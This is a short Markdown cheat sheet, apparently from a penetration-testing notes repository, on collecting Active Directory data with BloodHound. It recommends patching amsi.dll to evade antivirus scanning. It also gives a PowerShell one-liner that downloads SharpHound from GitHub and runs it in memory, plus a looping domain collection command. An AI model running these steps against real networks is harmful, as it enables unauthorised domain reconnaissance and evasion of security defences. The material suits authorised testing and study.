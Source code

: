 # Invoke-BloodHound
> **Warning**
> It is recommended to [patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse) first.

```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1')
Invoke-BloodHound -Domain <domain> -DomainController <ip> -CollectionMethod All -Loop -LoopInterval 00:05:00 -LoopDuration 04:00:00
```

# Bloodhound CustomQueries
[A collection of custom](https://github.com/okazymyrov/piki/blob/master/customqueries.json) queries for BloodHound based on [Bloodhound-CustomQueries](https://github.com/ZephrFish/Bloodhound-CustomQueries) from 08.07.22.
## How to 
Add the [customqueries.json](https://github.com/okazymyrov/piki/blob/master/customqueries.json) file to `C:\Users\<INSERT USER>\AppData\Roaming\bloodhound\customqueries.json` on Windows or `~/.config/bloodhound/customqueries.json` on Linux/Mac.
